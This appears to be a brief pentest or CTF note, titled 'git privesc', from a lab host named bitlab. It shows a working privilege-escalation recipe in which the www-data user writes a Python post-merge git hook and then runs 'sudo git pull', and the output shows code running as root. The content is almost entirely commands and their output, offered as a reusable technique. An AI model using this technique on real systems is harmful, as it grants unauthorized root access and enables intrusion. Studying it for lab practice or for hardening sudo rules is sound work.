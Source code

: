 # git privesc

## exemple

www-data@bitlab:/tmp$ cat << EOF > .git/hooks/post-merge
> #!/usr/bin/env python
> import os
> os.system("id")
> EOF
www-data@bitlab:/tmp$ sudo git pull
sudo git pull
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 4 (delta 2), reused 0 (delta 0)
Unpacking objects: 100% (4/4), done.
From ssh://localhost:3022/root/profile
   be3ad5b..a848dc2  master     -> origin/master
 * [new branch]      patch-14   -> origin/patch-14
Updating be3ad5b..a848dc2
Fast-forward
 test | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)
uid=0(root) gid=0(root) groups=0(root)


